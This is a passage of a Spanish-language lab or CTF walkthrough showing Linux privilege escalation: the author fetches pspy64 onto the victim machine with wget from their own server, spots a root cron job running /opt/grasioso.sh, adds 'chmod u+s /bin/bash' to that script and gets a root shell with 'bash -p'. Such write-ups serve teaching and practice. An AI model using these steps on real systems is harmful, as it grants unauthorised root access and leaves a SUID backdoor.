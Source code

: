Descarga la versión **pspy64** de la sección **Releases**.

Una vez que lo descargues, envíalo a la máquina víctima, abriendo un servidor con **Python** en tu máquina y utilizando **wget** para descargarlo:
```bash
puchero@puchero:~$ wget http://Tu_IP/pspy64
```

Dale permisos de ejecución y ejecútalo:
```bash
puchero@puchero:~$ chmod +x pspy64 
puchero@puchero:~$ ./pspy64
```

Esperando un par de minutos, podemos ver lo siguiente:
```bash
2025/06/14 04:18:23 CMD: UID=0     PID=1      | /sbin/init 
2025/06/14 04:19:01 CMD: UID=0     PID=17567  | /usr/sbin/CRON -f 
2025/06/14 04:19:01 CMD: UID=0     PID=17568  | /usr/sbin/CRON -f 
2025/06/14 04:19:01 CMD: UID=0     PID=17569  | /bin/sh -c /bin/bash -c /opt/grasioso.sh 
2025/06/14 04:19:01 CMD: UID=0     PID=17570  | 
2025/06/14 04:20:01 CMD: UID=0     PID=17571  | /usr/sbin/CRON -f 
2025/06/14 04:20:01 CMD: UID=0     PID=17572  | /usr/sbin/CRON -f 
2025/06/14 04:20:01 CMD: UID=0     PID=17573  | /bin/sh -c /bin/bash -c /opt/grasioso.sh 
2025/06/14 04:20:01 CMD: UID=0     PID=17574  |
```
El **usuario Root** (**UID=0**) está ejecutando una **tarea CRON**, que ejecuta cada minuto el script **grasioso.sh** que encontramos en el directorio `/opt`.

Se me ocurre utilizar este script para darle **permisos SUID** a la **Bash**.

<br>

<h2 id="bash">Escalando Privilegios con Tarea CRON Activa</h2>

Primero, veamos los permisos de la **Bash**:
```bash
puchero@puchero:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Solamente tiene permisos de ejecución específicos.

Modifiquemos el script **grasioso.sh** para que ejecute **chmod** y le dé **permisos SUID** a la **Bash**:
```bash
puchero@puchero:~$ nano /opt/grasioso.sh
------------------
chmod u+s /bin/bash
```

Esperemos un minuto y vuelve a revisar los permisos de la **Bash**:
```bash
puchero@puchero:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1265648 abr 23  2023 /bin/bash
```
Ya tiene **permisos SUID**.

Ahora, ejecutemos la **Bash** con privilegios:
```bash
puchero@puchero:~$ bash -p
bash-5.2# whoami
root
```
Listo, somos **Root**.
